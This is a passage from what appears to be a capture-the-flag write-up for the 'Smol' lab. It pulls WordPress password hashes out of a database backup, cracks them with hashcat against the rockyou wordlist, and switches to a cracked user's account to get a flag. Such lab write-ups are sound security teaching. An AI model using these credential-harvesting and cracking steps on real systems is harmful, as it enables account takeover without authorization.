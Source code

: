 In the `/opt` directory we find a backup of the Wordpress SQL database

```console
$ cat wp_backup.sql
...........
LOCK TABLES `wp_users` WRITE;
/*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
INSERT INTO `wp_users` VALUES (1,'admin','$P$Bvi8BHb84pjY/Kw0RWsOXUXsQ1aACL1','admin','admin@smol.thm','http://192.168.204.139','2023-08-16 06:58:30','',0,'admin'),(2,'wpuser','$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.','wp','wp@smol.thm','http://smol.thm','2023-08-16 11:04:07','',0,'wordpress user'),(3,'think','$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/','think','josemlwdf@smol.thm','http://smol.thm','2023-08-16 15:01:02','',0,'Jose Mario Llado Marti'),(4,'gege','$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1','gege','gege@smol.thm','http://smol.thm','2023-08-17 20:18:50','',0,'gege'),(5,'diego','$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1','diego','diego@smol.thm','http://smol.thm','2023-08-17 20:19:15','',0,'diego'),(6,'xavi','$P$BvcalhsCfVILp2SgttADny40mqJZCN/','xavi','xavi@smol.thm','http://smol.thm','2023-08-17 20:20:01','',0,'xavi');
/*!40000 ALTER TABLE `wp_users` ENABLE KEYS */;
UNLOCK TABLES;
.............
```

In the file we find these password hashes for these users

| **User** | **Hash**                             |
| -------- | ------------------------------------ |
| admin    | \$P\$Bvi8BHb84pjY/Kw0RWsOXUXsQ1aACL1 |
| wpuser   | \$P\$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think    | \$P\$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/ |
| gege     | \$P\$BsIY1w5krnhP3WvURMts0/M4FwiG0m1 |
| diego    | \$P\$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi     | \$P\$BvcalhsCfVILp2SgttADny40mqJZCN/ |

Next we can add these hashes to a txt file and use hashcat to crack them, we will use mode 400 

```console
┌──(kali㉿kali)-[~/Smol]
└─$ hashcat -m 400 hashes.txt usr/share/wordlists/rockyou.txt
```

After this finished we should have cracked two passwords for diego and gege

When we try to use `su` to change users into gege's account that password does not work, Fortunately diego's password does work and we can log in as them

In their home directory there is the first flag

![flag](/assets/img/CTFs/Smol/flag.jpg) 
